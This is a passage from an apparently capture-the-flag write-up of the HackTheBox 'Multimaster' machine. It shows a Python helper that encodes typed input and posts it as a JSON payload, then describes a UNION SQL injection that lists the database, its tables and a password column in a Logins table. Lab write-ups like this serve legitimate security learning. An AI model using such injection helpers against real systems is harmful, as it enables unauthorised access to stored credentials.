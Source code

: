 ```python
		"Content-type": "application/json"
	}
	cmd = raw_input("> ")
	encoded_cmd = unicode_crap(cmd)
	payload = '{"name": "' + encoded_cmd + '"}'
	print payload
	r = requests.post(url, data=payload, headers=headers, proxies=proxies)
	print r.text
	print("------------------------------------------------------")
```

Here, I found how many columns were in the table and I was able to use a UNION injection to include arbitrary data.

![](/assets/images/htb-writeup-multimaster/sql3.png)

Found the current DB name: `Hub_DB`

![](/assets/images/htb-writeup-multimaster/sql4.png)

Enumerated the tables in the database: `Colleagues` and `Logins`

![](/assets/images/htb-writeup-multimaster/sql5.png)

In the `Logins` table, I enumerated the columns and found the `password` one:

![](/assets/images/htb-writeup-multimaster/sql6.png)
